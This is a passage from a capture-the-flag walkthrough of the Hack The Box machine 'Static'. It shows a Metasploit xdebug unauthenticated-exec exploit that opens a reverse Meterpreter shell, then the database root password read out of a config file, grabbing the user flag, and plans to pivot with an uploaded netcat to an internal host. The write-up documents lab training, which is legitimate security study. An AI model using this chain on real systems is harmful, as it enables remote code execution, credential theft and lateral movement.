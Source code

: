 The info.php file show us all the PHP modules, settings, etc configured on the machine. It shows the server is running xdebug 2.6.0. I found an exploit for 2.5.5, but it seems the exploit still works: 
```
msf6 > use unix/http/xdebug_unauth_exec
msf6 exploit(unix/http/xdebug_unauth_exec) > set PATH /vpn/panel.php
msf6 exploit(unix/http/xdebug_unauth_exec) > set rhosts 172.20.0.10
msf6 exploit(unix/http/xdebug_unauth_exec) > set LHOST 172.30.0.9
msf6 exploit(unix/http/xdebug_unauth_exec) > exploit

[*] Started reverse TCP handler on 172.30.0.9:4444 
[*] 172.20.0.10:80 - Waiting for client response.
[*] 172.20.0.10:80 - Receiving response
[*] 172.20.0.10:80 - Shell might take upto a minute to respond.Please be patient.
[*] 172.20.0.10:80 - Sending payload of size 2026 bytes
[*] Sending stage (39282 bytes) to 172.30.0.1
[*] Meterpreter session 1 opened (172.30.0.9:4444 -> 172.30.0.1:39672 ) at 2021-10-27 11:59:32 -0500

meterpreter >
```

## User

I've got a session as the www-data user, next let's see how we can escalate to proper user access. The shell dropped me in the /var/www/html/vpn directory, so I take a look at database.php:
```
meterpreter > cat database.php
<?php
$servername = "db";
$username = "root";
$password = "2108@C00l";
$dbname = "static";
?>
```

There's our login info we needed for the mysql db we found earlier. Although I don't find much in the db just yet, maybe we can come back to that later.

We can however get the user flag from our current access:
```
www-data@web:/home$ cat user.txt
cat user.txt
500bd38d4ba6716--truncated--
```

We then find the www-data user has a ssh private key setup for ssh access, so we use that for a proper shell to make things easier going forward.

Looking at the interfaces for the web box, we see it has an interface with the IP 192.168.254.2 assigned. This means it talks on the same subnetwork as the pki machine we saw from the panel.php earlier. Let's try to pivot there.

First, I also uploaded a nc binary to the web container and checked a few of the common ports, 80 is open on the pki machine.


[1]: https://app.hackthebox.com/users/114053
[2]: https://www.hackthebox.eu
[3]: https://totp.danhersam.com/
[4]: https://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html
[5]: https://github.com/neex/phuip-fpizdam